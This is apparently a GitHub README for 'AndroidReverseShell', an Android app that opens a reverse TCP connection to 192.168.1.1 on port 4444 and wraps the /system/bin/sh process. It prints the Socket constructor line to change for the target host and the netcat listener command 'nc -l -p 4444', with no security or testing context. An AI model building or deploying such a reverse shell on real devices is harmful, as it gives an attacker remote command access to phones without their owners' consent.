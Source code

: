 AndroidReverseShell
===================

A simple reverse TCP shell example for Android

## Notes
## Build App Via AIDE Android App

This example makes a reverse TCP connection to 192.168.1.1 on port 4444 wrapping the `system/bin/sh` process.

To edit connection details modify the Socket constructor in the source:

`Socket socket = new Socket("192.168.1.1", 4444);`
		

To listen for a connection use a program such as Netcat to listen on the specified port.

Netcat Server Example: `nc -l -p 4444`
